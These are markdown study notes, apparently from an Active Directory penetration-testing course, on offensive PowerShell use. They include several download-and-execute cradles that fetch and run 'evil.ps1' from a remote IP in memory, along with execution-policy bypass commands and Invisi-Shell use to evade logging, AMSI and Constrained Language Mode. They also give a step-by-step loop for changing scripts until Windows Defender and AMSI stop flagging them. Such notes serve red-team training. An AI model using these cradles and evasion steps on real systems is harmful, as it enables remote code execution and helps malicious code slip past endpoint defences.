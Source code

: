 - PowerShell is NOT powershell.exe. It is the System.Management.Automation.dll
- `ls env:`
### PowerShell Scripts and Modules
- Load a PowerShell script using dot sourcing
```
C:\AD\Tools\PowerView.ps1
```
- A module (or a script) can be imported with:
```
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
- All the commands in a module can be listed with:
```
Get-Command -Module <modulename>
```
- Download execute cradle
```
#This will run from memory instaed of disk
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

```
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

```
#PSv3 onwards 
iex (iwr 'http://192.168.230.1/evil.ps1')
```

```
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

```
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
### PowerShell Detections
- System-wide transcription
- Script Block logging
- AntiMalware Scan Interface (AMSI) 
	- Regardless of how we run a script (from memory or disk or any menas), right before execution it will pick up the content and show it to the AV
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)

### Execution Policy
- It is NOT a security measure, it is present to prevent user from accidently executing scripts.
- Several ways to bypass
```
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```

### Bypassing PowerShell Security
- We will use [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) for bypassing the security controls in PowerShell
- Using Invisi-Shell
	- With admin privileges:
	```
	RunWithPathAsAdmin.bat
	```
	- With non-admin privileges:
	```
	RunWithRegistryNonAdmin.bat
	```
	- Type exit from the new PowerShell session to complete the clean-up.

### Bypassing AV Signatures for PowerShell
- We can always load scripts in memory and avoid detection using AMSI bypass.
- We can use the [AMSITrigger](https://github.com/RythmStick/AMSITrigger) or [DefenderCheck](https://github.com/t3hbb/DefenderCheck) to identify code and strings from a binary or script that Windows Defender may flag.
- Simply provide path to the script file to scan it:
```
AmsiTrigger_x64.exe -i C:\AD\Tools\Invoke-PowerShellTcp_Detected.ps1
DefenderCheck.exe PowerUp.ps1
```
- For full obfuscation of PowerShell scripts, see [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- Steps to avoid signature based detection are pretty simple:
	- Scan using AMSITrigger
	- Modify the detected code snippet
	- Rescan using AMSITrigger
	- Repeat the steps 2 & 3 till we get a result as “AMSI_RESULT_NOT_DETECTED” or “Blank”